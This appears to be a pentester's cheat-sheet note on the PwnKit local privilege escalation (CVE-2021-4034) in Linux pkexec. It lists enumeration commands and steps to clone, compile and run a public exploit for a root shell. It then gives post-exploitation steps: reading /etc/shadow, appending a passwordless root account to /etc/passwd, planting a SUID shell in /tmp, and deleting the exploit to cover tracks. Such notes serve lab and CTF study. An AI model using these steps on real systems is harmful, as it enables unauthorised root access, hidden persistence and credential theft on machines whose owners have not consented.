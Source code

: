 ### 1. Technique Name:

Polkit – pkexec Local Privilege Escalation (CVE-2021-4034 / PwnKit)
### 2. Summary:

Polkit (formerly PolicyKit) is a system-level service used for fine-grained authorization of privileged operations. The tool `pkexec` allows users to execute commands as another user, typically root, similar to `sudo`.

The vulnerability CVE-2021-4034 (PwnKit) affects the `pkexec` binary and allows a local unprivileged user to escalate privileges to root through memory corruption. This vulnerability existed in all major Linux distributions for over 10 years and can be reliably exploited with a public Proof-of-Concept (PoC).
### 3. Conditions / Requirements:

- `pkexec` binary is present on the system    
- Vulnerable `pkexec` version (unpatched before Jan 2022)
- Local access to the machine (low-privilege user)
- Ability to compile and execute code on the system (via `gcc`)
### 4. Enumeration Steps:
#### A. Check for `pkexec`:

```bash
which pkexec
```
#### B. Check version or distribution info (for patch status):

```bash
pkexec --version     # (if available)
cat /etc/os-release
```
#### C. Verify file permissions:

```bash
ls -l /usr/bin/pkexec
# Should be -rwsr-xr-x (setuid root)
```
#### D. Optional - List known policies or rules (low yield in this case):

```bash
pkaction
ls /usr/share/polkit-1/actions/
```
### 5. Exploitation Steps (CVE-2021-4034):
#### A. Download and compile the PoC:

```bash
git clone https://github.com/arthepsy/CVE-2021-4034.git
cd CVE-2021-4034
gcc cve-2021-4034-poc.c -o poc
```
#### B. Execute the exploit:

```bash
./poc
```
#### C. Verify root shell:

```bash
# id
uid=0(root) gid=0(root) groups=0(root)
```

> If you end up in a minimal shell (`sh`), switch to a proper interactive shell:

```bash
# bash
```
### 6. Post-Exploitation Tips:

- You are now root. You can:    
    - Dump sensitive files (e.g., `/etc/shadow`, `/root/flag.txt`)    
    - Add a new root user:    

```bash
echo 'haxor::0:0:root:/root:/bin/bash' >> /etc/passwd
```

- Drop a SUID shell:

```bash
cp /bin/bash /tmp/rootsh
chmod +s /tmp/rootsh
```

- Clean up the PoC binary:

```bash
rm -rf ~/CVE-2021-4034
```
### 7. Example / Notes:

- Command used to exploit:    

```bash
./poc
```

- Verification:

```bash
# id
uid=0(root) gid=0(root)
```

- PoC Repository:  
    [https://github.com/arthepsy/CVE-2021-4034](https://github.com/arthepsy/CVE-2021-4034)
   
- About pkexec:  
    You can also manually run:

```bash
pkexec -u root <command>
```

But it will typically prompt for a password unless `pkexec` is misconfigured or vulnerable.
# Tags
> #Linux-Post-Exploitation #Linux-Privesc #Pwnkit #Polkit